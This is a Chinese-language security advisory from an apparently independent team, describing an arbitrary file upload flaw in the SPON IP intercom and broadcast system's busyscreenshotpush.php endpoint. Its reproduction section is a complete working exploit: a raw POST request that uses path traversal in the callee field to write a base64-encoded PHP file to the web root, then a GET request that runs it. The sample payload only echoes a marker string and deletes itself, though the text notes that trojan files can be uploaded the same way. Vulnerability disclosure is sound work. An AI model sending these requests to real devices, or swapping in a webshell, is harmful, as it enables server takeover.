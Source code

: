 #  世邦通信SPON IP网络对讲广播系统busyscreenshotpush.php 接口处存在文件上传漏洞   
原创 R0seK1ller  蟹堡安全团队   2024-08-06 23:59  
  
## 1. 漏洞描述  
  
	  
    世邦通信 SPON IP网络对讲广播系统 busyscreenshotpush.php 存在任意文件上传漏洞，攻击者可以通过漏洞上传任意文件甚至木马文件，从而获取服务器权限。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWkicQxOPON5a5MyqeLDa2OKxTgCiaZEJiaWHMfNJhpLoe2u9P5j9E9OibjmMATibfCyq3ZIqVu4BDBBIA/640?wx_fmt=png&from=appmsg "")  
## 2. 漏洞复现  
```
POST /php/busyscreenshotpush.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; QQBrowser/7.0.3698.400)
Content-Length: 215
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate, br
Connection: close

jsondata[caller]=1&jsondata[callee]=../../../../../ICPAS/Wnmp/WWW/php/&jsondata[imagename]=1_2_test.php&jsondata[imagecontent]=PD9waHAgZWNobyAnT3RFWHkwSVJncExWMzkxdzNSUzd5OVR5U1BGM1dVeDAnO3VubGluayhfX0ZJTEVfXyk7Pz4=

```  
  
  
jsondata[imagecontent]的参数是经过base64编码的，在此处以以下代码为例：  
> <  
?php echo 'OtEXy0IRgpLV391w3RS7y9TySPF3WUx0';unlink(  
_  
_  
FILE  
_  
_  
);?>  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWkicQxOPON5a5MyqeLDa2OKwogsknha6PDQ5LTBBibBUve0GE6dG46aiaSN5F2bMbhmh7f5XviaAUl0A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWkicQxOPON5a5MyqeLDa2OKtIHyDM1AOS9FIlmBaCv5b39DPKwibicGD9ibdbXtf8N6Fiar2Lvkm35F6A/640?wx_fmt=png&from=appmsg "")  
  
	  
显示"{"res":"1"}"，即为上传成功，上传成功后访问/php/1_2_test.php，查看文件是否上传成功，文件是否能够解析。  
```
GET /php/1_2_test.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; QQBrowser/7.0.3698.400)
Content-Length: 0
Accept-Encoding: gzip, deflate, br
Connection: close


```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWkicQxOPON5a5MyqeLDa2OKTaqlzWaDFYHy0sp6KBLj90q3wiamjBic5ricliadLlHWcHvaticwziayoJMQ/640?wx_fmt=png&from=appmsg "")  
  
成功执行echo OtEXy0IRgpLV391w3RS7y9TySPF3WUx0，并输出返回信息。  
  
  
